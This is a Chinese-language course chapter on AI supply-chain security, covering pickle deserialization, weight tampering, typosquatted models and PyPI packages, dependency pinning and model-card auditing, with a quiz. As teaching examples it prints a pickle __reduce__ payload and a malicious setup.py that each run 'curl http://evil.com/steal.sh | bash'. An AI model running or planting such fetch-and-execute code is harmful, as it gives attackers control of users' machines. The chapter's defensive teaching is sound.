




import { Callout } from 'fumadocs-ui/components/callout';
import { Tabs, Tab } from 'fumadocs-ui/components/tabs';
import { Accordion, Accordions } from 'fumadocs-ui/components/accordion';
import { Quiz } from '@/components/ui/quiz';

<Callout title="" type="info">
预计阅读约12分钟
</Callout>

## 本章导读

前三章讨论的攻击（对抗样本、隐私泄露、数据投毒）都有一个共同前提：攻击者需要直接与模型交互或接触训练数据。但本章要揭示一条更隐蔽的攻击路径：**不直接攻击模型本身，而是在模型的来源和依赖中做手脚。** 当你从 Hugging Face 下载一个开源模型、用 pip 安装一个 Python 库时，你是否考虑过它们可能已经被植入了恶意代码？这就是 AI 供应链安全问题，攻击发生在你意识到风险之前。

本章将帮你建立 AI 供应链的全局认知：从预训练模型到微调数据集、从训练框架到 Python 依赖库，整条链路上的每个环节都可能成为攻击入口。我们将重点介绍开源模型的安全风险（恶意模型文件、pickle 反序列化攻击）、依赖库的安全隐患（依赖混淆、恶意包），以及模型卡审计的基本方法。作为模块四的最后一章，本章将你的风险视野从"模型本身"扩展到"整个 AI 生态系统"，为模块五的系统性安全评估提供了最后一块关键拼图。

## 学习目标

<Callout title="本章学完后，你将能够：" type="info">
1. **理解 AI 供应链的概念**：知道 AI 模型的供应链包含哪些环节
2. **识别开源模型的安全风险**：了解从 Hugging Face 等平台下载模型时需要注意什么
3. **了解依赖库的安全风险**：知道 Python 依赖库可能带来的安全隐患
4. **掌握模型卡审计的基本方法**：能够阅读和评估模型卡中的安全相关信息
</Callout>

## 1 AI 供应链概述

### 1.1 什么是 AI 供应链

传统软件有供应链（操作系统→编程语言→框架→库→应用），AI 系统同样有自己的供应链。下图展示了一个典型的 AI 应用从上游到最终交付的全链路：



供应链中的**每个环节**都可能成为攻击目标。一个环节被攻破，整条链路都会受影响，下游的所有使用者都会"继承"这个安全问题。

### 1.2 为什么 AI 供应链安全尤其重要

相比传统软件供应链，AI 供应链面临的安全挑战更为特殊：

<Tabs items={["高度依赖开源", "模型文件不可审查", "信任链长"]}>
<Tab value="高度依赖开源">

当今的 AI 开发高度依赖开源生态：开源模型（Qwen、LLaMA）、开源框架（PyTorch、Transformers）、开源数据集。

与传统软件不同，从零训练一个大语言模型的成本极高（数百万到数千万美元），绝大多数团队**只能**依赖开源基座模型。这意味着上游模型的安全问题会影响整个下游生态。

</Tab>
<Tab value="模型文件不可审查">

传统软件的依赖（如 npm 包、pip 包）主要是代码，可以通过代码审查发现恶意行为。但 AI 模型文件是**二进制的权重数据**（数十亿个浮点数），人类无法直接阅读和审查。

你无法像审查代码一样"看一眼"就判断一个模型是否被植入了后门，这让模型层面的供应链攻击比代码层面更难防御。

</Tab>
<Tab value="信任链长">

从原始数据到最终应用，经过了**多个组织、多个平台、多个工具**。以一个典型的 AI 客服为例：

- 基座模型来自 Meta（LLaMA）或阿里（Qwen）
- 微调数据集来自 Hugging Face 社区
- 训练框架来自 PyTorch 和 Hugging Face
- 推理引擎来自 vLLM 或 Ollama
- 部署在云服务商的 GPU 服务器上

任何一个环节被污染，都可能影响最终产品的安全性。

</Tab>
</Tabs>

<Callout title="与上一章的联系" type="info">
上一章讨论的数据投毒和后门攻击，本质上也是供应链攻击的一种形式，即攻击训练数据这个"原材料"环节。本章将从更宏观的视角，讨论整个供应链中的安全风险。
</Callout>

## 2 开源模型的安全风险

### 2.1 模型托管平台

目前最主要的开源模型托管平台是 **Hugging Face**，它就像 AI 领域的 GitHub。截至 2025 年，平台上已有超过 100 万个模型被上传和共享。

这种开放的生态带来了巨大便利，但也创造了攻击面，任何人都可以上传模型，而下载者往往默认信任平台上的内容。

### 2.2 三类主要风险

<Tabs items={["恶意代码执行", "模型权重篡改", "冒名仿冒模型"]}>
<Tab value="恶意代码执行">

某些模型格式（特别是使用 Python **pickle** 序列化的格式）允许在模型加载时执行任意代码。这意味着，仅仅是 `model.load()` 这一个操作，就可能在你的机器上运行攻击者预设的恶意代码。

```python title="pickle 反序列化攻击原理"
import pickle
import os

class MaliciousModel:
    def __reduce__(self):
        # pickle 加载时会自动调用 __reduce__
        # 攻击者可以在这里执行任意代码
        return (os.system, ("curl http://evil.com/steal.sh | bash",))  # [!code highlight]

# 用户只是正常加载模型，恶意代码就会执行
# model = pickle.load(open("model.pkl", "rb"))  ← 危险！
```



<Callout title="安全格式：safetensors" type="warn">
这就是为什么 Hugging Face 推荐使用 **safetensors** 格式，这种格式只包含纯张量数据（浮点数数组），不能嵌入可执行代码。加载 safetensors 文件时不会运行任何代码，从根本上消除了反序列化攻击的风险。
</Callout>

</Tab>
<Tab value="模型权重篡改">

即使模型文件格式安全（如 safetensors），模型权重本身也可能被修改。攻击者可以：

- **植入后门**：修改少量权重，使模型在特定触发条件下执行异常行为（回忆上一章的内容）
- **降低特定性能**：让模型在特定语言、特定领域的表现显著下降
- **嵌入偏见**：让模型在涉及特定群体时输出带有歧视性的内容

由于模型权重是数十亿个浮点数，人类无法通过直接检查发现篡改。这类攻击的检测只能依赖行为测试和统计分析。

</Tab>
<Tab value="冒名仿冒模型">

攻击者上传与知名模型名称相似的恶意模型，诱导用户下载。这与 npm/PyPI 上的 typosquatting 攻击完全相同：

```text title="冒名模型示例"
✅ 正版：Qwen/Qwen2-1.5B-Instruct
❌ 仿冒：Qvven/Qwen2-1.5B-Instruct   ← w → vv
❌ 仿冒：Qwen/Qwen2-l.5B-Instruct    ← 1 → l（小写字母L）
❌ 仿冒：Qwen/Qwen2-1.5B-lnstruct    ← I → l
```

这些差异在快速浏览时很难察觉，特别是在命令行中复制粘贴模型名称时。

</Tab>
</Tabs>

### 2.3 如何识别可信模型

在下载和使用开源模型时，建议按以下清单逐项检查：

| 检查项 | 具体做法 | 风险等级（未检查时） |
|-------|---------|------------------|
| **发布者身份** | 确认是官方组织（如 `Qwen`、`meta-llama`），查看认证标志 | 🔴 高 |
| **文件格式** | 优先选择 `safetensors` 格式，避免不明来源的 `.pkl` 文件 | 🔴 高 |
| **下载量与社区反馈** | 查看下载量、Discussions 中的用户反馈、是否有安全扫描 | 🟡 中 |
| **模型卡完整性** | 检查是否有详细的模型卡，训练数据来源是否透明 | 🟡 中 |
| **版本历史** | 检查最近的更新记录，突然的维护者变更是危险信号 | 🟡 中 |

## 3 依赖库的安全风险

### 3.1 Python 依赖的信任问题

AI 开发大量使用 Python 生态，一个典型的 AI 项目可能依赖数十个甚至上百个包。每安装一个包，你就隐式地信任了这个包的所有维护者，以及它的所有上游依赖。



上图是一个简化的依赖树。实际项目中，`pip install transformers` 一条命令就会安装 **30+ 个包**。其中任何一个被攻破，你的项目就会受影响。

### 3.2 三种常见攻击方式

| 攻击类型 | 原理 | 真实案例 |
|----------|------|---------|
| **供应链劫持** | 攻击者接管流行包的维护权（盗号或社工） | 2018 年 npm `event-stream` 事件，维护者被社工后转交控制权 |
| **名称仿冒（Typosquatting）** | 上传与流行包名拼写相近的恶意包 | PyPI 上出现 `numpyy`、`reqeusts` 等恶意包 |
| **依赖混淆** | 利用包管理器优先解析公共源的特性，注册同名公共包覆盖私有包 | 2021 年 Alex Birsan 演示攻击了 Apple、Microsoft 等公司 |

以名称仿冒为例，以下拼写差异在安装时很难察觉：

```bash title="名称仿冒示例"
pip install numpy        # ✅ 正确
pip install numpyy       # ❌ 恶意包                # [!code highlight]
pip install reqeusts     # ❌ 恶意包（requests 拼错） # [!code highlight]
pip install python-dotenv  # ✅ 正确
pip install python-dotnev  # ❌ 恶意包              # [!code highlight]
```

### 3.3 案例：AI/ML 生态的真实攻击

**案例一：PyPI 恶意 ML 包（2023）**

安全研究人员发现 PyPI 上有多个恶意包伪装成流行的 ML 库。这些包在安装时（`setup.py` 阶段）会自动下载并执行远程恶意脚本：

```python title="恶意包的 setup.py（简化示意）"
from setuptools import setup
import os

# 安装时自动执行，用户完全无感知
os.system("curl -s http://evil.com/steal.sh | bash")  # [!code highlight]

setup(
    name="numpyy",  # 伪装成 numpy
    version="1.24.0",
    # ... 其余看起来完全正常
)
```

**案例二：Hugging Face 恶意模型（2024）**

安全公司 JFrog 在 Hugging Face 上发现了约 100 个包含恶意代码的模型。这些模型使用 pickle 格式，在加载时会建立反向 Shell 连接，让攻击者远程控制用户的机器。

<Callout title="安装 ≠ 信任" type="warn">
`pip install` 和 `model.load()` 不仅仅是"下载文件"，它们可能会**执行代码**。每次安装依赖或加载模型时，都应当意识到你在赋予第三方代码在你机器上运行的权限。
</Callout>

### 3.4 依赖安全最佳实践

```python title="requirements.txt 安全写法"
# ❌ 不安全：范围版本，可能自动升级到被劫持的新版本
transformers>=4.40
torch>=2.0

# ✅ 安全：固定精确版本 + 哈希校验
transformers==4.40.0 \                              # [!code highlight]
    --hash=sha256:abc123...                         # [!code highlight]
torch==2.2.0 \                                      # [!code highlight]
    --hash=sha256:def456...                         # [!code highlight]
```

完整的依赖安全策略：

| 实践 | 做法 | 目的 |
|-----|------|------|
| **版本固定** | `transformers==4.40.0`（精确版本） | 防止自动升级到被劫持的版本 |
| **哈希校验** | `--hash=sha256:...` | 确保下载的包未被篡改 |
| **来源验证** | 只从官方 PyPI 安装，配置 `--index-url` | 防止依赖混淆攻击 |
| **最小依赖** | 只安装必要的包，避免"全家桶" | 减少攻击面 |
| **定期审计** | 使用 `pip-audit` 或 `safety` 扫描已知漏洞 | 及时发现已披露的安全问题 |

## 4 模型卡审计

### 4.1 什么是模型卡

模型卡（Model Card）是模型的"说明书"，记录了模型的关键信息。它最早由 Google 在 2019 年提出（[Model Cards for Model Reporting](https://arxiv.org/abs/1810.03993)），现在已成为 Hugging Face 上的标准实践。

一个完善的模型卡应该包含以下信息：

| 信息类别 | 内容 | 安全相关性 |
|----------|------|-----------|
| 模型基本信息 | 名称、版本、作者、许可证 | 确认模型来源和合法性 |
| 训练信息 | 训练数据来源、训练方法、数据规模 | 评估数据投毒风险 |
| 性能指标 | 各项评测分数、对比基准 | 验证模型质量，异常分数可能是篡改信号 |
| 使用限制 | 已知局限性和不适用场景 | 评估部署风险 |
| 伦理考量 | 偏见分析、公平性评估、安全测试 | 评估社会影响和安全水平 |

### 4.2 从安全角度审计模型卡

当评估一个开源模型是否值得信任时，可以从三个维度进行安全审计：



**维度一：训练数据的透明度**

这是评估数据投毒风险的关键。需要关注：

- 训练数据来源是否清楚说明？（"从互联网爬取"vs"使用 xx 数据集"）
- 数据是否经过清洗和审核？清洗流程是否公开？
- 是否包含个人信息或敏感内容？如何处理的？

**维度二：已知风险的披露**

负责任的模型开发者会主动披露模型的局限性：

- 是否说明了模型的已知局限性和失败场景？
- 是否有关于潜在危害的警告？
- 是否描述了不适合使用的场景？

**维度三：安全评估结果**

- 是否提供了安全评测（红队测试）结果？
- 是否有关于偏见和公平性的分析？
- 是否描述了为减少风险所采取的措施？

### 4.3 实践：读懂模型卡

以下是一个模型卡 JSON 元数据的示例。从安全角度来看，哪些字段值得关注？

```json title="模型卡元数据（示例）"
{
  "model_name": "SecureChat-7B",
  "author": "example-org",
  "license": "Apache-2.0",
  "base_model": "Qwen/Qwen2-7B",
  "training_data": {                                         // [!code focus]
    "sources": ["OpenAssistant", "ShareGPT", "自有标注数据"],  // [!code focus]
    "size": "200K 条对话",                                    // [!code focus]
    "filtering": "人工审核 + 自动过滤敏感内容"                  // [!code focus]
  },
  "evaluation": {
    "benchmarks": { "MMLU": 64.2, "HumanEval": 45.1 },
    "safety_tests": {                                        // [!code focus]
      "toxicity_rate": "0.3%",                               // [!code focus]
      "red_team_tested": true,                               // [!code focus]
      "known_vulnerabilities": ["对角色扮演越狱的防御较弱"]     // [!code focus]
    }
  },
  "limitations": [                                           // [!code focus]
    "可能生成不准确的信息",                                    // [!code focus]
    "不应用于医疗、法律等专业建议",                             // [!code focus]
    "在低资源语言上表现显著下降"                                // [!code focus]
  ]
}
```

上面用 focus 标注的字段是安全审计的关键：`training_data` 帮助评估数据投毒风险，`safety_tests` 展示了安全测试的范围，`limitations` 披露了已知局限。

<Callout title="模型卡 ≠ 安全保证" type="warn">
一个完善的模型卡说明开发者重视透明度和责任，但**并不能保证**模型没有安全问题。反过来，模型卡缺失或信息不完整则是一个**明确的风险信号**。如果开发者连模型卡都不愿意写，你更应该警惕这个模型的安全性。
</Callout>

在实验 4.4 中，你将练习审计一个模拟的模型卡 JSON，系统性地检查其中的安全相关信息。

## 本章小结

本章介绍了 AI 供应链安全，一个容易被忽视但影响深远的安全领域。

**AI 供应链**：从预训练模型到部署应用的每个环节都可能成为攻击目标。AI 领域高度依赖开源生态、模型文件不可人工审查、信任链条长，这三个特点使供应链安全尤为重要。

**开源模型风险**：恶意代码执行（pickle 反序列化）、模型权重篡改（后门植入）、冒名仿冒模型（typosquatting）。下载模型时应检查发布者身份、文件格式、社区验证和模型卡。

**依赖安全**：供应链劫持、名称仿冒、依赖混淆是三种主要攻击方式。应实践版本固定、哈希校验、来源验证和最小依赖原则。

**模型卡审计**：从训练数据透明度、已知风险披露、安全评估结果三个维度审计模型卡，是评估模型可信度的重要手段。模型卡缺失本身就是风险信号。

在实验 4.4 中，你将对一个模拟的模型卡进行安全审计，练习系统性地评估模型的安全风险。

## 课后思考

<Accordions>
  <Accordion title="思考题1：信任的边界">
    你现在使用的 Qwen 模型也是从 Hugging Face 下载的开源模型。基于本章所学，你认为在使用它时应该注意什么？你为什么可以（相对）信任它？
  </Accordion>
  <Accordion title="思考题2：AI 供应链 vs 软件供应链">
    传统软件开发中也有供应链安全问题（如 npm 的 event-stream 事件、Python 的 pip 恶意包事件）。AI 供应链安全与传统软件供应链安全相比，有什么独特的挑战？
  </Accordion>
</Accordions>

## 自测 Quiz

<Quiz questions={[
  {
    question: '为什么 Hugging Face 推荐使用 safetensors 格式而非 pickle 格式？',
    options: [
      { label: 'safetensors 格式的模型更准确' },
      { label: 'safetensors 只包含张量数据，不能嵌入可执行代码，加载时不会运行任何代码', correct: true },
      { label: 'safetensors 格式文件更小' },
      { label: 'pickle 格式已被官方弃用' },
    ],
    explanation: 'pickle 格式允许在模型加载时执行任意代码，攻击者可以在模型文件中隐藏恶意代码。而 safetensors 只包含纯张量数据，从根本上消除了这个风险。',
  },
  {
    question: '以下哪项不属于依赖库安全的最佳实践？',
    options: [
      { label: '在 requirements.txt 中固定精确版本号' },
      { label: '只从官方 PyPI 安装包' },
      { label: '安装尽可能多的包以确保功能完备', correct: true },
      { label: '定期关注依赖库的安全公告' },
    ],
    explanation: '最小依赖原则要求只安装必要的包。每个额外的依赖都是潜在的攻击面，应该避免"全家桶"式安装。',
  },
  {
    question: '模型卡审计中，如果发现模型卡信息不完整或缺失，这意味着什么？',
    options: [
      { label: '模型质量肯定很差' },
      { label: '模型肯定是恶意的' },
      { label: '这是一个明确的风险信号，说明开发者可能不够重视透明度和责任', correct: true },
      { label: '可以忽略，只看性能指标' },
    ],
    explanation: '模型卡缺失不能直接证明模型有问题，但说明开发者对透明度和责任的重视不足，是一个需要警惕的风险信号。',
  },
]} />

## 延伸阅读

- [Hugging Face 模型安全扫描](https://huggingface.co/docs/hub/security)
- [Model Cards for Model Reporting（Google 原始论文）](https://arxiv.org/abs/1810.03993)
- [The Foundation Model Transparency Index](https://crfm.stanford.edu/fmti/)
